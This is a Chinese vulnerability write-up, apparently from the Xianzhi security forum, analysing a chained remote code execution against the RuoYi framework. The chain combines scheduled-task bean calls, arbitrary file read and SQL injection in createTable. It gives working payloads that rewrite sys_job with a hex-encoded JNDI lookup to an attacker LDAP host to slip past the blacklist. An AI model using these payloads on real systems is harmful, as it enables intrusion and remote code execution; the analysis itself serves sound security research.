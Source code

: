 

# 最新 Ruoyi 组合拳 RCE 分析 - 先知社区

最新 Ruoyi 组合拳 RCE 分析

- - -

## 开门见山

最新版 ruoyi rce 的方法依旧是在定时任务处：定时任务中可以调用特定包内的 bean，通过`genTableServiceImpl`直接执行 sql 来更改定时任务内容，从而绕过黑白名单的限制。既然是组合拳 rce，因此就先分析下另外两个漏洞，而 rce 自然而然就出来了

## 定时任务 + 文件读取=任意文件读取

先来简单聊一下若依任意文件读取（CVE-2023-27025），影响版本在 4.7.6 之前  
众所周知，ruoyi 计划任务能调用 bean 或者 class 类，这里就是通过调用`ruoYiConfig.setProfile`，来更改本地上传文件路径  
[![](assets/1709282727-3f0771cac94c5e2d24b3257cb68378b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190447-5a3231d8-d6f2-1.png)  
且该 bean 包名能通过黑白名单校验  
[![](assets/1709282727-32dfc14dfd0a4c11b61fa3fc4e492680.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190458-6072bab8-d6f2-1.png)  
`/common/download/resource`接口能读取文件  
虽然前端对传入文件名`resource`进行过滤，**但本地资源路径通过上文计划任务变为可控**，此时更改`ruoYiConfig.setProfile`的配置文件为任意想要读取的文件即可，也就达到了任意文件读取效果  
[![](assets/1709282727-db245a0216164334029fe9b93974415c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190515-6ab271b2-d6f2-1.png)

[![](assets/1709282727-c76493e5f39ed9b5260a0d5f28465f8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229192118-a8855688-d6f4-1.png)

## createTable 处的 Sql 注入

在 ruoyi 4.7.5 版本之前，后台存在 sql 注入  
接口`/tool/gen/createTable`处，定位到代码，其功能为创建数据表。将 sql 语句直接从前端传入，并执行  
[![](assets/1709282727-8234fda03d723ef00487fae824669dc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190541-79deef76-d6f2-1.png)  
Mapper 语句：

```bash
<update id="createTable">
      ${sql}
</update>
```

[![](assets/1709282727-bef0e3c0206d8e54c243d966518b8803.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229192427-199acf60-d6f5-1.png)

## 定时任务+SQL 注入=RCE

根据上文的注入可以找到`genTableService`的实现类：`GenTableServiceImpl`，该类同样满足黑白名单条件  
[![](assets/1709282727-9b08020d18aca8a2165127a3aeb084db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190611-8c03c474-d6f2-1.png)  
在启动类中我们可以修改代码如下，打印出项目中所有加载的 bean，

```bash
ConfigurableApplicationContext run = SpringApplication.run(RuoYiApplication.class, args);
String[] beanDefinitionNames = run.getBeanDefinitionNames();
for (String beanDefinitionName : beanDefinitionNames) {
    System.out.println(beanDefinitionName);
}
```

[![](assets/1709282727-dfbadb2b980b5c4d136e8e7ed6280750.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190647-a1b4a676-d6f2-1.png)  
于是我们可以调用`genTableServiceImpl.createTable`实现 sql 语句执行  
ruoyi 黑白名单校验仅出现在`com.ruoyi.quartz.controller.SysJobController#addSave`，而任务状态修改接口中并没有添加

[![](assets/1709282727-e1846444e88465c796e9ad3d3de0c18a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190736-be901528-d6f2-1.png)  
如果我们配合上文的注入在`sys_job`数据表中直接插入恶意计划任务，即可不调用`addSave`方法添加计划任务内容，成功绕过黑白名单限制  
数据库中计划任务表结构如下

[![](assets/1709282727-6cb8cdab6ffc1e294a39aa1beac4a2ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190808-d1c88ff8-d6f2-1.png)  
这里选择图个方便，直接使用 update 来修改 invoke\_target 为 Jndi payload：

```bash
javax.naming.InitialContext.lookup('ldap://192.168.44.84:1389/Deserialization/URLDNS/ekwzmxtyim.dgrh3.cn')
```

updata 执行语句为

```bash
genTableServiceImpl.createTable("UPDATE sys_job SET invoke_target = \"javax.naming.InitialContext.lookup('ldap://192.168.44.84:1389/Deserialization/URLDNS/ekwzmxtyim.dgrh3.cn')\" WHERE job_id = 3;")
```

但会触发黑名单

[![](assets/1709282727-c9d4e26ecb59a4b09f991e7d28838aa6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191218-66cdfb92-d6f3-1.png)  
既然是执行 sql 语句，直接将 value 转为 16 进制即可

```bash
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3139322e3136382e34342e38343a313338392f446573657269616c697a6174696f6e2f55524c444e532f656b777a6d787479696d2e64677268332e636e2729 WHERE job_id = 3;')
```

此时是能成功执行`org.quartz.Scheduler#scheduleJob`来调度任务的

[![](assets/1709282727-068e6cdf1fc698e6da34e5dfc2a33507.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191249-79768e1c-d6f3-1.png)  
成功更新 sys\_job 数据

[![](assets/1709282727-5cc14b362d371655d8c8146ffdcb4f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191300-7ff89546-d6f3-1.png)

### 漏洞复现

启动 jndi 利用工具：

[![](assets/1709282727-f82f449d10ecd67b716cb98efffe3c94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191310-85be9a7a-d6f3-1.png)  
添加任务：修改 id 为 3 的计划任务为 jndi payload，并执行

```bash
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3139322e3136382e34342e38343a313338392f446573657269616c697a6174696f6e2f55524c444e532f656b777a6d787479696d2e64677268332e636e2729 WHERE job_id = 3;')
```

[![](assets/1709282727-8fe1d25d5c8a386401c785b92a6a3bac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191326-8f809360-d6f3-1.png)  
此时任务 3 的调用字符串已经是 Jndi payload 了，后面直接通过`/monitor/job/changeStatus`接口直接更改任务状态触发 Jndi

[![](assets/1709282727-29ffa3c59cd29a96e0c3e326d13c9a98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191343-995fcc48-d6f3-1.png)

[![](assets/1709282727-174648a5824bc7d438f6f853d1940ae9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191346-9b73ad9c-d6f3-1.png)  
此外根据 ruoyi 默认依赖，还可以使用[jndi-plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README_zh.md "jndi-plus")的 jackson 反序列化来实现 rce

[![](assets/1709282727-c289e6ac73bc58204fc1664691cb5935.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191441-bbc85822-d6f3-1.png)

[![](assets/1709282727-d1dff8e87e04f309df5a76621aea59d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191450-c15017ee-d6f3-1.png)

## 参考文章

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README\_zh.md](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README_zh.md)  
[https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC](https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC)
